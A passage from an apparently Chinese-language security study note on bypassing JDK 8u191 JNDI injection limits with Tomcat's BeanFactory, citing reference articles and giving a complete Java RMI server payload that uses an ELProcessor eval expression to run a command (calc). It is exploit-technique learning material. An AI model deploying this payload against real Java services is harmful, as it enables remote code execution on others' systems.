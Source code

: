 2. 简单点说，就是着重点从 Codebase 转移到 Factory，找他使用的、实现 `ObjectFactory` 或者 `DirObjectFactory` 两种接口的工厂类。

### 4.1 借助 Tomcat 的 `BeanFactory` 类（Tomcat 8.5.78，87 是用不了，todo 具体哪个版本修复）

1. 参考：

    > https://paper.seebug.org/942/
    > https://www.mi1k7ea.com/2020/09/07/%E6%B5%85%E6%9E%90%E9%AB%98%E4%BD%8E%E7%89%88JDK%E4%B8%8B%E7%9A%84JNDI%E6%B3%A8%E5%85%A5%E5%8F%8A%E7%BB%95%E8%BF%87/#%E5%88%A9%E7%94%A8%E6%9C%AC%E5%9C%B0%E6%81%B6%E6%84%8FClass%E4%BD%9C%E4%B8%BAReference-Factory
    >
    > https://tttang.com/archive/1405/

2. “为什么”使用 `BeanFactory`，因为他的方法有动态性，即通过反射或者类加载来执行代码。那么用户就可以通过控制输入的内容来控制反射或者类加载的结果。

#### 4.1.1 流程分析

1. 先给出 payload：
    ```java
    package com.endlessshw.server;
    
    import com.sun.jndi.rmi.registry.ReferenceWrapper;
    import org.apache.naming.ResourceRef;
    
    import javax.naming.InitialContext;
    import javax.naming.NamingException;
    import javax.naming.StringRefAddr;
    import java.rmi.AlreadyBoundException;
    import java.rmi.RemoteException;
    import java.rmi.registry.LocateRegistry;
    import java.rmi.registry.Registry;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 利用 BeanFactory 绕过 8u191，使用 RMI 作为服务器
     * @date 2023/5/14 10:07
     */
    public class JNDIBypassServer {
        public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
            Registry registry = LocateRegistry.createRegistry(1099);
            InitialContext initialContext = new InitialContext();
            // 实例化 Reference，指定目标类为 javax.el.ELProcessor，工厂类为 org.apache.naming.factory.BeanFactory
            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
            // 强制将'x'属性的setter从'setX'变为'eval', 详细逻辑见BeanFactory.getObjectInstance代码
            ref.add(new StringRefAddr("forceString", "x=eval"));
            // 利用表达式执行命令
            ref.add(new StringRefAddr("x", "Runtime.getRuntime().exec(\"calc\")"));
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
            initialContext.rebind("rmi://localhost:1099/myRemote", referenceWrapper);
        }
    }
    ```
